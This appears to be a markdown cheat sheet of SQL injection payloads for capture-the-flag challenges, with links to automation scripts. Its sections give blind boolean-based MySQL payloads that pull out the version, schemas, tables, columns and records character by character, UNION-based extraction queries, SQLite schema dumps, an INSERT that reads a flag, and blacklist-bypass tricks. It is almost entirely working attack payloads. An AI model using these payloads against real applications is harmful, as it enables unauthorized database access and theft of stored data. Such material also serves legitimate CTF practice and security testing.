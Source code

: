 ## MySQL

### Comment
  - `#`
  - `-- `
  - `/*comment*/`

### Blind SQLi
  - Finding correct payload
      - `admin' and (1=0)#` *return false*
      - `admin' and (1=1)#` *return true*
        
  - Get version [code.py](https://github.com/ByamB4/Common-CTF-Challenges/blob/main/web/sqli/src/mysql_blind_get_version.py)
      - `admin' and (SELECT LENGTH(VERSION())={guess})#`
      - `admin' and (SELECT ASCII(SUBSTRING(VERSION(),1,1))={guess})#`

  - Get schemas [code.py](https://github.com/ByamB4/Common-CTF-Challenges/blob/main/web/sqli/src/mysql_get_schemas.py)
      - `admin' and (SELECT COUNT(*)={guess} total_schemas FROM information_schema.SCHEMATA)#`
      - `admin' and (SELECT LENGTH((SELECT SCHEMA_NAME FROM information_schema.SCHEMATA ORDER BY SCHEMA_NAME LIMIT 1 OFFSET {index}))={name_length})#`
      - `admin' and (SELECT ASCII(SUBSTRING((SELECT SCHEMA_NAME FROM information_schema.SCHEMATA ORDER BY SCHEMA_NAME LIMIT 1 OFFSET {schema_index}),{name_index},1))={ord(guess)})#`
  
  - Get tables from schema [code.py](https://github.com/ByamB4/Common-CTF-Challenges/blob/main/web/sqli/src/mysql_blind_get_tables.py)
      - `admin' and (SELECT COUNT(*)={guess} total_schemas FROM information_schema.TABLES WHERE TABLE_SCHEMA='{self.SCHEMA_NAME}')#`
      - `admin' and (SELECT LENGTH((SELECT TABLE_NAME FROM information_schema.TABLES WHERE TABLE_SCHEMA='{self.SCHEMA_NAME}' ORDER BY TABLE_NAME LIMIT 1 OFFSET {index}))={name_length})#`
      - `admin' and (SELECT ASCII(SUBSTRING((SELECT TABLE_NAME FROM information_schema.TABLES WHERE TABLE_SCHEMA='{self.SCHEMA_NAME}' ORDER BY TABLE_NAME LIMIT 1 OFFSET {table_index}),{name_index},1))={ord(guess)})#`
   
  - Get columns from table [code.py](https://github.com/ByamB4/Common-CTF-Challenges/blob/main/web/sqli/src/mysql_blind_get_columns.py)
      - `admin' and (SELECT COUNT(*)={guess} total_columns FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='{self.SCHEMA_NAME}' AND TABLE_NAME='{self.TABLE_NAME}')#`
      - `admin' and (SELECT LENGTH((SELECT COLUMN_NAME FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='{self.SCHEMA_NAME}' AND TABLE_NAME='{self.TABLE_NAME}' ORDER BY COLUMN_NAME LIMIT 1 OFFSET {index}))={name_length})#`
      - `admin' and (SELECT ASCII(SUBSTRING((SELECT COLUMN_NAME FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='{self.SCHEMA_NAME}' AND TABLE_NAME='{self.TABLE_NAME}' ORDER BY COLUMN_NAME LIMIT 1 OFFSET {column_index}),{name_index},1))={ord(guess)})#`
      
   - Get total record from table [code.py](https://github.com/ByamB4/Common-CTF-Challenges/blob/main/web/sqli/src/mysql_blind_get_total_record.py)
      - `admin' and (SELECT COUNT(*)={guess} FROM {self.SCHEMA_NAME}.{self.TABLE_NAME})#`

   - Get record from table [code.py](https://github.com/ByamB4/Common-CTF-Challenges/blob/main/web/sqli/src/mysql_blind_get_record.py)
      - `admin' and (SELECT COUNT(*)={guess} FROM {self.SCHEMA_NAME}.{self.TABLE_NAME})#`
      - `admin' and (SELECT LENGTH((SELECT {self.COLUMN_NAME} FROM {self.SCHEMA_NAME}.{self.TABLE_NAME} ORDER BY {self.ORDER_COLUMN} LIMIT 1 OFFSET {index}))={record_length})#`
      - `admin' and (SELECT ASCII(SUBSTRING((SELECT {self.COLUMN_NAME} FROM {self.SCHEMA_NAME}.{self.TABLE_NAME} ORDER BY {self.ORDER_COLUMN} LIMIT 1 OFFSET {record_index}),{name_index},1))={ord(guess)})#`

### Union SQLi
- Extract number column

  - `'union select 1,2,3#`
  - `' order by 3#` 

- Confirming injection visible

  - `'union select @@version,2,3#`

- Extract database names

  - `';show databases;#`
  - `'union select group_concat(0x7c,schema_name,0x7c),2,3 from information_schema.schemata#`

- Extract table neams from database

  - `';show tables;#`
  - `'union select group_concat(0x7c,table_name,0x7c),2,3 from information_schema.tables where table_schema='<DATABASE_NAME>'#`

- Extract column names from table name
  
  ```
  ';show columns from <TABLE_NAME>;#
  ';show columns from `1919810931114514`;# if table name is number it must be queried with backtricks
  'union select group_concat(0x7c,column_name,0x7c),2,3 from information_schema.columns where table_name='<TABLE_NAME>'#
  ```

- Extract data

  - `'union select <COLUMN_NAME>,'b','c' from <DATABASE_NAME>.<TABLE_NAME> where id='1'#`

## SQLite
- Extract previous query
  - `UNION SELECT sql FROM sqlite_master`

- Extract table names 
  - `UNION SELECT name FROM sqlite_master WHERE type='table'--`
  
- Extract column names from table name
  - `UNION SELECT sql FROM sqlite_master WHERE type='table' AND name='<table_name>'--`
  
- Extract data using column and table name
  - `UNION SELECT <column_name> FROM <table_name> WHERE id=1--`

### Insert
  - `INSERT INTO notes(username, notes) VALUES('admin', (SELECT flag FROM secret LIMIT 0,1)); -- -`


## Tricks

  - Bypass blacklist words
    - `ad'||'min`

  - Read data from column name
    ```
    1'; handler <COLUMN_NAME> open as `a`; handler `a` read next;#
    ```
